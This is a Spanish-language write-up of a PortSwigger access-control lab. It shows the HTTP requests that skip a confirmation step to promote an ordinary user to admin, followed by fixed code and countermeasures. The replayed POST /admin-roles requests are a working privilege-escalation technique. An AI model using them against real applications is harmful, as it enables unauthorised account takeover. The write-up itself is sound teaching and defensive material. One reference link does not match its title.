

# Writeup: Multi-step process with no access control on one step (PortSwigger)

- **Lab**: Multi-step process with no access control on one step
- **URL**: https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step
- **Categoría**: Access control / Multi-step bypass / Workflow flaw / State machine bypass
- **Dificultad**: Practitioner
- **Credenciales**: `wiener:peter` (target promoter), `administrator:admin` (recon)

---

## 1. Objetivo

Promoverse a admin desde wiener. La acción de promote del panel admin se hace en dos pasos:

1. `POST /admin-roles` con `username=X&action=upgrade` → server devuelve página de confirmación ("Are you sure?").
2. `POST /admin-roles` con `username=X&action=upgrade&confirmed=true` → ejecuta el cambio real de rol.

El access control se aplica al paso 1 (la UI lo invoca primero, los devs ponen el check ahí). El paso 2 no re-valida, asume que "si llegaste con `confirmed=true`, alguien autorizó el paso 1". Wiener manda directo el paso 2 saltándose el paso 1 → 302 → admin.

### Insight central

**Workflows multi-step asumen estado entre pasos**: "el paso 2 sólo se alcanza después del paso 1, así que el check del paso 1 protege ambos". Pero HTTP es stateless. Cualquier cliente puede mandar cualquier request en cualquier orden. La UI controla el orden; el atacante no.

Patrón de bug: **defensa colocada en el camino esperado, no en cada operación con efecto**. El dev modela el flujo desde la perspectiva del UI ("paso 1 → paso 2 → paso 3"), no desde la perspectiva de la API ("3 endpoints invocables independientemente").

---

## 2. Recon y resolución

### 2.1 Recon con admin

Login `administrator:admin`, panel admin, click "Upgrade" en cualquier user. Burp captura **dos requests consecutivas**:

```
POST /admin-roles HTTP/2
Cookie: session=<admin-session>
Content-Type: application/x-www-form-urlencoded

username=carlos&action=upgrade
```

→ Response 200 con HTML de confirmación: "Are you sure you want to upgrade carlos? [Confirm]". El form tiene un campo hidden `<input name="confirmed" value="true">`.

```
POST /admin-roles HTTP/2
Cookie: session=<admin-session>
Content-Type: application/x-www-form-urlencoded

username=carlos&action=upgrade&confirmed=true
```

→ Response 302 a `/admin`. Carlos promovido.

### 2.2 Replay con sesión wiener saltando paso 1

Wiener intenta el paso 1 directamente:

```
POST /admin-roles HTTP/2
Cookie: session=<wiener>

username=wiener&action=upgrade
```

→ 401/403 (auth check funciona en paso 1). Test 1 confirma que existe defensa.

Wiener intenta el paso 2 directamente (saltándose el 1):

```
POST /admin-roles HTTP/2
Cookie: session=2nfdwcxgJ73S2ES15DQgDvNA3ZtdK5Jy
Content-Type: application/x-www-form-urlencoded

action=upgrade&confirmed=true&username=wiener
```

Response:

```
HTTP/2 302 Found
Location: /admin
```

Wiener promovido. Refresh `/my-account`, ahora es admin. Lab solved.

### 2.3 Por qué el flag `confirmed=true` salta el paso 1

El handler probablemente tiene una rama tipo:

```python
if request.form.get('confirmed') == 'true':
    # rama "commit" - ejecutar el cambio
    promote_user(request.form['username'], request.form['action'])
    return redirect('/admin')
else:
    # rama "preview" - mostrar pagina de confirmacion
    require_admin()  # <-- check aplicado solo aca
    return render_template('confirm_upgrade.html', ...)
```

El `require_admin()` está pegado al render de la página de confirmación, no al commit. El commit asume que `confirmed=true` significa que alguien ya pasó por el paso 1 (y el paso 1 ya validó admin). Pero `confirmed=true` es un campo del form, controlado por el cliente. Cualquiera puede setearlo.

---

## 3. Por qué funciona

### 3.1 Anatomía del bug: state implícito vs state explícito

El dev modeló el flujo así:

```
GET /admin -> click Upgrade -> POST /admin-roles (action=upgrade) -> page "are you sure?" -> POST /admin-roles (confirmed=true) -> done
```

Implícitamente: "para llegar al confirmed=true, el atacante tuvo que pasar por la página de confirmación, que sólo se renderiza si es admin".

Pero cada `POST /admin-roles` es una request independiente. El atacante no necesita pasar por la página de confirmación; sólo necesita conocer la forma del request final (lo cual descubre con un admin de recon, una sola vez).

### 3.2 Por qué se cae en este patrón

- **Mental model UI-first**: el dev imagina al usuario clickeando, no al atacante mandando POST en Burp.
- **Páginas de confirmación se sienten como auth gate**: el paso "are you sure?" parece una barrera. Pero es UX, no seguridad.
- **Auth check en el render del HTML**: tradición legacy de aplicaciones server-rendered, donde el check estaba en la página que mostraba el form. APIs stateless rompen el supuesto.
- **Tokens CSRF como falsa defensa**: a veces el dev cree que el token CSRF protege el paso 2 ("sólo el browser que vio el paso 1 tiene el token"). Pero CSRF no protege contra requests legítimos del propio user; sólo contra cross-site forge. Wiener autenticado tiene su propio CSRF token; no necesita el de admin.
- **"Idempotencia" mal entendida**: paso 2 se siente como "confirmar lo ya autorizado". Pero el server no tiene memoria de qué se autorizó.

### 3.3 Implementación correcta

```python
# Fix 1 - auth check en el commit, no solo en el render
@app.route('/admin-roles', methods=['POST'])
def admin_roles():
    require_admin()  # <-- antes de cualquier rama
    if request.form.get('confirmed') == 'true':
        promote_user(request.form['username'], request.form['action'])
        return redirect('/admin')
    return render_template('confirm_upgrade.html', ...)
```

```python
# Fix 2 - state server-side con tokens unicos por workflow
@app.route('/admin-roles/start', methods=['POST'])
def start_upgrade():
    require_admin()
    token = generate_token()
    pending_upgrades[token] = {
        'admin': session['user_id'],
        'target': request.form['username'],
        'action': request.form['action'],
        'expires_at': now() + timedelta(minutes=5),
    }
    return render_template('confirm.html', token=token)

@app.route('/admin-roles/commit', methods=['POST'])
def commit_upgrade():
    require_admin()  # tambien aqui, defensa profunda
    token = request.form['token']
    upgrade = pending_upgrades.pop(token, None)
    if not upgrade or upgrade['expires_at'] < now():
        abort(400)
    if upgrade['admin'] != session['user_id']:
        abort(403)  # otro admin no puede commitear el preview de uno
    promote_user(upgrade['target'], upgrade['action'])
    return redirect('/admin')
```

Patrón general: **cada operación con efecto debe validar autorización, sin importar dónde está en el flujo**. El "estado del workflow" lo guarda el server (pending tokens), no el cliente (form fields). Y dentro del workflow, cada paso revalida.

### 3.4 Variantes de multi-step bypass

- **Saltarse el paso anterior**: este lab. Mandás directo el final.
- **Saltarse el paso final** (a la inversa): si el step final es el que registra el cambio en logs/audit, mandar sólo los previos efectúa la acción sin auditoría.
- **Re-ejecutar pasos**: paso de "consume token" se ejecuta dos veces, doble crédito en cuenta bancaria, dos órdenes con un solo pago.
- **Reordenar pasos**: paso 3 antes que paso 2, si los pasos no validan precondiciones.
- **Time-of-check / time-of-use (TOCTOU)**: paso 1 valida con datos que cambian en paso 2. Race condition.
- **Mixing de actores**: paso 1 con sesión A, paso 2 con sesión B, si el server no asocia los pasos a la misma sesión.

### 3.5 Conexión con labs hermanos del cluster

| Lab | Disparidad explotada |
|---|---|
| `url-based-access-control-can-be-circumvented` | frontend lee request line, backend respeta `X-Original-URL` |
| `method-based-access-control-can-be-circumvented` | filtro autoriza por método, handler corre con cualquier método |
| **`multi-step-process-with-no-access-control-on-one-step` (este)** | filtro autoriza el paso intermedio, paso final no re-valida |

Tres bugs estructuralmente similares: **defensa colocada en un punto del pipeline; el atacante alcanza el efecto evitando ese punto**. La fix también es estructural: deny by default, auth en cada operación con efecto, no en el camino esperado.

---

## 4. Resumen



Tres ideas:

1. **HTTP es stateless, el workflow lo controla el cliente**: la UI dicta el orden de la UX, no del request. Cualquier cliente manda cualquier endpoint en cualquier orden.
2. **Páginas de confirmación son UX, no seguridad**: el "are you sure?" no es auth gate. El atacante salta directo al commit.
3. **Auth en cada operación con efecto**: la regla mecánica es: si la request muta estado, el handler valida permisos antes de mutar. No importa dónde está en el flujo.

---

## 5. Contramedidas

1. **Auth check en cada handler que muta estado**: deny by default, decorator/anotación por endpoint. Nunca asumir que el paso anterior validó.
2. **State server-side con tokens cortos**: workflow multi-step guarda el "estado entre pasos" en memoria/DB del server con tokens únicos y TTL corto (5 min). Cliente no controla el estado.
3. **Asociar workflow a sesión**: el token de paso intermedio sólo es consumible por la misma sesión que lo creó. Mixing de actores bloqueado.
4. **No campos hidden con flags semánticos**: `confirmed=true`, `step=2`, `is_admin=true` en form fields son banderas client-controlled. Si el server diferencia ramas según un flag del cliente, el cliente decide la rama.
5. **Audit logging por paso**: registrar cada paso del workflow con user, timestamp, action. Detectar saltos (paso 2 sin paso 1 previo).
6. **Tests automatizados de access control por paso**: por cada endpoint del workflow, test que verifica auth requerida con cada combinación de parámetros, no sólo el "happy path".
7. **Threat modeling del workflow**: enumerar cada request del flujo y preguntar "qué pasa si un user no autorizado manda esta request directo?". Si la respuesta es "se ejecuta", hay bug.
8. **Code review de handlers compartidos**: cualquier handler que ramifica según un flag del request (`if confirmed: commit() else: render()`) es candidato. La auth tiene que estar antes del fork.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Multi-step process with no access control on one step*. https://portswigger.net/web-security/access-control/lab-multi-step-process-with-no-access-control-on-one-step
- PortSwigger Web Security Academy. (s.f.). *Access control vulnerabilities and privilege escalation*. https://portswigger.net/web-security/access-control
- PortSwigger Web Security Academy. (s.f.). *Business logic vulnerabilities*. https://portswigger.net/web-security/logic-flaws
- OWASP Foundation. (2021). *A01:2021 - Broken Access Control*. https://owasp.org/Top10/A01_2021-Broken_Access_Control/
- OWASP Foundation. (2021). *A04:2021 - Insecure Design*. https://owasp.org/Top10/A04_2021-Insecure_Design/
- OWASP Foundation. (s.f.). *Authorization Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html
- OWASP Foundation. (s.f.). *Testing for Process Timing*. https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/06-Session_Management_Testing/02-Testing_for_Cookies_Attributes
- MITRE Corporation. (2024). *CWE-284: Improper Access Control*. https://cwe.mitre.org/data/definitions/284.html
- MITRE Corporation. (2024). *CWE-840: Business Logic Errors*. https://cwe.mitre.org/data/definitions/840.html
- MITRE Corporation. (2024). *CWE-841: Improper Enforcement of Behavioral Workflow*. https://cwe.mitre.org/data/definitions/841.html
- MITRE Corporation. (2024). *CWE-863: Incorrect Authorization*. https://cwe.mitre.org/data/definitions/863.html
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 8 (Attacking Access Controls), Cap. 11 (Attacking Application Logic).
- Inventario interno (umbrella): [`inventario/04-explotacion/web/explotacion-broken-access-control.md`](../../../inventario/04-explotacion/web/explotacion-broken-access-control.md)
- Labs hermanos del cluster (defensa parcial mal acoplada):
  - [`learning/portswigger/url-based-access-control-can-be-circumvented/writeup.md`](../url-based-access-control-can-be-circumvented/writeup.md)
  - [`learning/portswigger/method-based-access-control-can-be-circumvented/writeup.md`](../method-based-access-control-can-be-circumvented/writeup.md)
